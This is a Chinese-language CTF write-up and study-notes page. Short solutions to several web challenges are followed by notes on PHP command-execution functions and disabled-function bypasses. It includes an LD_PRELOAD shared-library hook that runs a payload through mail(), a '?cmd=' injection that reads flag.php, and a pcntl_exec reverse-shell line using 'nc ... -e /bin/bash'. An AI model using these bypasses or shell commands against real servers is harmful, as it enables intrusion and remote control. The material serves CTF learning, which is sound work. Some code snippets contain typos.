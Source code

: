 # 题目

## [LitCTF 2023]Follow me and hack me

使用hackerbar
![](https://i.imgur.com/ARCYx9Z.png)

## [SWPUCTF 2021 新生赛]Do_you_know_http

利用burpsuite抓包更改，使用WLLM访问
![](https://imgur.com/Uq8BtLG.png)
在响应中获取新地址并修改浏览器访问
![](https://imgur.com/kTT2kXb.png)
连续两次
![](https://imgur.com/xvMlgyH.png)
要求本地访问，修改请求头伪造本地访问
![](https://imgur.com/TFduMyU.png)
访问新地址获得flag
![](https://imgur.com/jyhXzvx.png)

## [LitCTF 2023]就当无事发生

查看github更改记录
![](https://imgur.com/eNFbGw5.png)

## [第五空间 2021]WebFTP

使用御剑扫描工具
![](https://imgur.com/CVcZf8B.png)
打开phpinfo.php,ctrl+f搜索flag
![](https://imgur.com/fsyjSVa.png)

## [SWPUCTF 2021 新生赛]easyrce

![](https://imgur.com/sQWV6G2.png)
![](https://imgur.com/vgybZxr.png)

## [SWPUCTF 2022 新生赛]奇妙的MD5

![](https://imgur.com/2NP5aQN.png)

## [BJDCTF 2020]easy_md5

![](https://imgur.com/qYhngzI.png)

# 学习

贴一点学习笔记吧T_T

## 命令执行常见函数

重点：如何运行，运行条件，参数，能否回显

### system()

**函数定义**

- string system(string $command, int &$return_var = ?)
  **参数**：
- $command：要执行的系统命令（字符串）。
- $return_var（可选）：命令执行后的返回值（引用传递）。返回值：命令执行的输出（字符串）。
- 提交命令（参数）————返回结果（回显）

### exec()

**函数定义**

- string exec(string $command, array &$output = null, int &$return_var = null)
  **参数**：
- $command：要执行的系统命令（字符串）。单独使用时只有最后一行结果，且不会回显。
- $output（可选）：命令执行的输出（引用传递）。
- $return_var（可选）：命令执行后的返回值（引用传递）。
- 提交命令（output参数填充数组）—— print_r ——返回结果（回显）

### passthru()

**函数定义**

- void passthru(string $command, int &$return_var = null)
  **参数**：
- $command：要执行的系统命令（字符串）。输出二进制数据，并且需要直接传送到浏览器。
- $return_var（可选）：命令执行后的返回值（引用传递）。
  提交命令（参数）—— 输出二进制数据 ——返回结果（回显）

### shell_exec()

**函数定义**

- string shell_exec(string $cmd)
  **参数**：
- $cmd参数：要执行的系统命令（字符串）。
  单独使用时只有最后一行结果，且不会回显。
  环境执行命令，并且将完整的输出以字符串方式返回。借用echo，print等输出结果。
- 提交命令（参数）——返回结果（回显）

### popen()

**函数定义**

- resource popen(string $command, string $mode)
  **参数**：
- $command：要执行的系统命令（字符串）。
- $mode：打开管道的模式（字符串）。ry：读写，w：只写，r：只读。
  打开一个管道，并返回一个资源。
- 提交命令（参数）——返回结果（回显）

### proc_open()

**函数定义**

- resource proc_open(string $command, array $descriptorspec, array &$pipes, string $cwd = null, array $env = null, array $other_options = null)
  **参数**：
- $command：要执行的系统命令（字符串）。
- $descriptorspec：定义数组内容，描述符（数组）。
- $pipes：调用数组内容，管道（引用传递）。
- $cwd：工作目录（字符串）。
- $env：环境变量（数组）。
- $other_options：其他选项（数组）。
  打开一个进程，并返回一个资源。

### pcntl_exec()

**函数定义**

- bool pcntl_exec(string $path, array $args, array $envs = null)
  **参数**：
- $path：可执行的二进制文件（字符串）。
- $args：参数数组（数组）。
- $envs：环境变量数组（数组）。
  执行外部程序，替换当前进程。

## 替换绕过函数过滤

?cmd=passthre('cat flag.php'); //执行命令，输出flag.php内容

## LD_PRELOAD 绕过函数过滤

### mail

绕过条件：
能上传.so文件，并设置LD_PRELOAD环境变量

```
#vim demo.php
```

```php
<?php
mail(",",");
?>
```

```
#strace -o 1.tet -f php demo.php 
```

把demo.php的系统调用记录到1.tet文件中

```
#cat 1.tet | grep execve
```

查看调用哪些子进程

```
"/usr/sbin/sendmail"
```

```
#readelf -Ws /usr/sbin/sendmail 
```

查看sendmail调用哪些库

```
geteuid
```

![](https://imgur.com/LOavMgU.png)

```
#vim demo.c
```

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
void payload() {
  system("echo'你的邮件还能发出去么？'");
}
int geteuid() {
   unsetenv("LD_PRELOAD")；
   payload();
}
```

```
#gcc -shared -fPIC demo.c -o demo.so
```

将带有命令的c文件编译成so文件，生成动态链接库文件

## 蚁剑及pcntl绕过函数过滤

### 蚁剑

咋这样

### pcntl_exec

pcntl_exec(string $path, array $args = ?, array $envs = ?)

- 参数path：必须是可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径标
  头的脚本（比如文件第一行是＃!/usr/local/bin/perl的perl脚本）。
- 参数args：是一个要传递给程序的参数的字符串数组。
- 参数envs：是一个要传递给程序作为环境变量的字符串数组。
  info信息：没有禁用pcntl_exec函数
  pcntl_exec函数没有回显
  解决方法一：cat文件并输出到有权限读取路径；
  解决方法二：shell反弹
  post提交

```
cmd=pcntl_exec('/bin/sh',array("-c","nc 192.168.1.1 8888 -e /bin/bash"));
```

参数path：/bin/bash
参数args：以数组形式包裹
c执行二进制文件
nc反弹tcp连接
可以在kali执行命令

